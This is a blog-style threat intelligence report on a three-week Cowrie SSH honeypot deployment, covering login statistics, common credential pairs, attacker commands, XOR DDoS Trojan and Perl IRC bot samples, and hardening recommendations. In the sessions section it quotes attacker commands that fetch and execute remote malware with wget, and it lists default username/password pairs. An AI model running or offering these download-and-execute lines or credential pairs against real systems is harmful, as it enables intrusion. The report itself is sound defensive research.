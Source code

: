```yaml
---
layout: post
title: Cowrie Honeypot Analysis Results
tags: [Security, Honeypot]
---
```

During the period 16th of August 2017 to 6th of September 2017 a honeypot was deployed utilising the open source honeypot software Cowrie. Cowrie is a medium interaction SSH and Telnet honeypot designed to log brute force attacks and the shell interaction performed by the attacker. The honeypot was deployed on a Digital Ocean virtual private server (VPS) located in San Francisco, US. The honeypot was deployed as a research honeypot for the purpose of gaining threat intelligence on attackers as they interacted with the honeypot. 
The honeypot was deployed with a Splunk universal forwarder which sent the data recorded by the honeypot to a Splunk Enterprise instance, also deployed via Digital Ocean. The app ‘Tango Honeypot Intelligence’ was used to interpret Cowrie logs and provide actionable Cyber Threat Intelligence (CTI) and statistics. Overall the honeypot was successful receiving multiple connections and scans a day, whilst providing useful threat information and malware specimens to be analysed. This Intelligence report will discuss the results of the honeypot exercise and provide analysis on attacker interactions with the honeypot.

###Connections
Over the 22 days that the honey pot was active, there were a total of 1754 different IP addresses interacted with the honeypot in the form of either successful or unsuccessful connections. There were 16,527 login attempts throughout the life of the honeypot with 2074 successful attempts and 14,453 failed attempts. This equates to approximately 80 different IP addresses connecting the honeypot per day, with 751 attempted logins a day. It is noted that the days of high activity occurred on a Friday, Saturday or Sunday meaning that attackers were active over Weekend periods. The day of lowest activity, aside from the day the honeypot was launched was a Monday. 

###Username and Passwords
The following table details the top 10 usernames attempted by attackers 

Username | Count
--- | ---

admin |	6648
root	| 2599
support	| 604
service |	363
usuario |	358
user	| 355
ubnt	| 354
test	| 336
ubuntu	| 204
pi	| 200

The top 10 usernames attempted show a number of standard usernames which one would expect to see, such as ‘admin’, ‘root’, ‘support’ and ‘service’ and some interesting usernames as well. Of note, the username ‘usuario’ is the Spanish word for user. The username ‘ubnt’ is the default password for [Ubiquity’s UniFi Access Points]( https://help.ubnt.com/hc/en-us/articles/204909374-UniFi-What-is-the-default-username-password-for-UAPs-and-controller-), which have an SSH connection capability. The username ‘pi’ is also the default username for [Rasbian Linux]( https://www.raspberrypi.org/documentation/linux/usage/users.md), the standard operating system for Raspberry Pi’s. 
The following table details the top 10 passwords attempted by attackers:
Password |	Count
--- | ---
 	| 754
password |	735
123456 |	730
admin |	610
1234 | 542
support |	539
12345	| 525
default	| 512
admin1	| 437
admin1234	| 422

The top 10 passwords are what would be expected as standard for a honeypot, with a blank password, ‘password’ and ‘123456’ taking equal share of the top three attempted passwords. It is assessed that attackers would have been using a standard password dictionary file to brute force logins to the honeypot.
The following table details the top 10 username and password combinations:
Username/Password Combination |	Count
--- | ---
root/	 | 688
support/support	| 517
admin/admin	| 500
admin/default	| 449
admin/password	| 441
admin/admin1	| 421
admin/12345	| 420
admin/admin1234	| 406
admin/aerohive	| 401
admin/admin123	| 399

The top 10 username and password combinations essentially combine the top two usernames with the top 10 passwords. The one exception to this is the username and password combination ‘admin/aerohive’. This username and password combination is the default username and password for [Aerohive Networks]( https://www.cleancss.com/router-default/Aerohive/HiveAP_350) range of routers and wireless access points. 

###Locations
The Tango Honeypot Intelligence app provides locational data on the IPs that interact with the honeypot. This information cannot be relied upon or used for attribution as it only determines the location of the device that interacted with the device. An attacker may be interacting with the honeypot through a VPN or VPS located in another country. 
The following graph demonstrates the top 5 countries that scanned the honeypot:
 [Top 5 logged in countries](/img/loginCountry.png)

The following graph demonstrates the top 5 countries that logged into the honeypot:

[Top 5 logged in countries](/img/scannedCountry.png)

The prominent presence of Vietnam in scanning and China in successful logins is consisted with results produced by [Kaspersky’s IoT honeytrap labs]( https://securelist.com/honeypots-and-the-internet-of-things/78751/) in 2016, where these two nations were the top two nations conducting attacks (Kuskov et al., 2017). All nations, with the exception of France both feature in Kaspersky’s results as well as in [Ryan Chinn’s Honeypot and IoT analysis]( https://msmis.eller.arizona.edu/sites/msmis/files/documents/sfs_papers/ryan_chinn_sfs_masters_paper_0.pdf) which indicates that attacks and scans from these nations are a common occurrence. 

###Sessions
A session is defined as a successful login and the execution of commands within the honeypot. Of the 2074 successful logins, there were only 926 sessions with commands executed. The top 10 commands run on the honeypot are detailed in the following table:
Command Entered |	Count
--- | ---
uname -a	| 1606
free -m	| 84
ps x	| 74
uname	| 42
uname	| 42
cat /proc/cpuinfo	|28
wget https://rootr258.000webhostapp.com/arhive/perl.pl&&perl perl.pl&&perl perl.pl&&rm -rf perl.pl&&uname -a	| 23
wget https://rootr258.000webhostapp.com/arhive/perl.pl	| 23
uname -a && cat /etc/issue	| 22
cat /etc/issue	| 22

The vast majority of IP’s that connected to the honeypot executed ‘uname -a’ as their only commands and then ended their session. Often attackers would execute the top three commands, ‘uname -a’, ‘free -m’ and ‘ps x’ in the one session. It is assessed that this behaviour is that of an automated script or bot designed to brute force the SSH login and then gather information on the victim PC by obtaining the system version, memory information and running processes. Automating this process would allow an attacker to review the information to determine potential targets for them to further explore.
The two ‘wget’ commands in the top 10 were all performed by the same IP located in France across 23 sessions. The attacker initially downloaded the file with the ‘wget’ command and then downloaded the file again and attempted to execute and then remove the file. 
Human vs Bot Interaction
The Tango Honeypot Intelligence app provides data on what is assessed as human interaction and what is assessed as bot interaction. This assessment is performed based on the timestamps of the interaction. Interactions where the number of commands entered seem suspicious for the length of the session are often identified as bots, interactions that are longer will be identified as being potentially human. The following graph demonstrates the level of human versus bot interaction with the honeypot. 
 [Human Vs Bot](/img/botVhuman.png)

There were only 8 unique files downloaded to the honeypot with the majority of these being performed by suspected bots. A typical bot download would involve the use of the following command - wget http://157.52.151.116/a21jj curl -O http://157.52.151.116/a21jj chmod +x a21jj ./a21jj. This command downloads the piece of malware, makes it executable and then executes the file. The final command the attacker executes is – ls -la /var/run/gcc.pid. The presence of /var/run/gcc.pid confirms the presence of the [XOR DDOS Trojan]( https://blog.checkpoint.com/wp-content/uploads/2015/10/sb-report-threat-intelligence-groundhog.pdf).
There were sessions where attackers attempted to extract system information from the system, this ranged from data on the system itself such as iptables and cpu information through to extracting SSH keys and /etc/shadow and /etc/password. In one occurrence, the attacker pipped this system information into gzip and then encoded it using base64. However, in all sessions in which the attacker probed for system information and prepared it for extraction there is no evidence of any extraction occurring from the system. 
The third type of session that was observed was one in which the attacker will login to the system and then immediately clear all history and remove all log files. The attacker will then go through and recreate each of these files using the touch command. This behaviour was performed twice by one individual IP address located in New Delhi, India with no evidence that they had connected to the honeypot prior. 

###Malware Analysis
There were 48 files downloaded to the honeypot, only 8 generated unique SHA256 hashes. Of these 8 files, 5 were ELF files, two were perl scripts and one was a python script. The python script was downloaded and not executed on the honeypot. Reviewing the python scripted identified it as a script that connected to speedtest.net and provided command line speedtest.net data. However, after investigating the URL the script was downloaded from, the site redirected to mrreacher.com, which appears to be an individual from Romania, who has coded a number of DDOS along with game hacks and cheats. It is assessed that the speedtest.net script was downloaded as part of reconnaissance being conducted by ‘Mr Reacher’. 
The two perl scripts are both identical with the exception of the information provided in their comments. Both scripts identify themselves as being a ‘DDOS Perl IrcBot v1.0’, however one states it was created in 2012 by ‘DDOS Security Team’ and the other being created in 2013 by ‘vK’. Both of these files were executed on the honeypot. 
The 5 ELF files were identified as being the XOR DDOS Trojan by [VirusTotal.com]( https://www.virustotal.com/). Running each of these ELF files through [detux.org]( https://detux.org/); a Linux Sandbox system, it was identified that all 5 executables attempted to connect to the same domain ww.gzcfr5axf7.com. The executables then attempted to make UDP connections out to 39 different IP Addresses. The manner in which these files were executed on the honeypot also confirms that they are the XOR DDOS Trojan, each of the attackers were identified as being bots by Tango Honeypot Intelligence due to the automated manner and speed in which they executed their commands and they each looked to confirm the presence of /var/run/gcc.pid after executing. 

###Recommendations
Based on the Cyber Threat Intelligence gathered by the honeypot exercise. The following are the recommendations for securing a network against the attacks seen on the Cowrie honeypot:
- Disable root login over SSH – This will prevent attackers from gaining root level permissions if they are able to brute force a login.
- Limit failed SSH login attempts – This will prevent brute force attacks, by limiting their effectiveness or by blocking the IP after too many failed attempts. 
- Use SSH Public Keys – By disabling password authentication and enabling SSH public keys, attackers will be unable to brute force access to the server
- Block known IP addresses – The IP addresses that interacted with the honeypot should be blocked via firewall rules or IPS. This ensures that known attackers cannot continue to attack in the future.
- Block malicious domains and IP addresses – The domains and IP addresses that are known to contain malware should be blocked from being connected from within the network.
- Integrate XOR DDOS Bot data into SIEM – The honeypot provided valuable data on how the XOR DDOS Trojan interacted once it was able to brute force a connection. Implementing alerts within a SIEM application for commands such as ‘ls -la /var/run/gcc.pid’ would alert to the potential for this bot running within the network.
- Integrate File Integrity Monitoring (FIM) into SIEM – By integrating FIM into SIEM, it will provide greater information on the modification of files by malware, as well as alert of the presence of known malware.

###Conclusion
The deployment of a Cowrie honeypot was effective in gaining valuable Cyber Threat Intelligence on attackers and their activities. From the data collected it was evident that a large number of automated scripts and bots were active in brute forcing their way into the system. The presence of the XOR DDOS Trojan on the system further confirms that bots were active in targeting the network. The vast majority of interactions with the honeypot is assessed to be bots that are conducting reconnaissance activities by obtaining information on the system. It is assessed that these bots then feed this information back to attackers for them to assess whether the system is a potential target of value. The Cyber Threat Intelligence gained by the honeypot allows network defenders to strengthen their networks from the threats observed by implementing the recommendations made in this report.
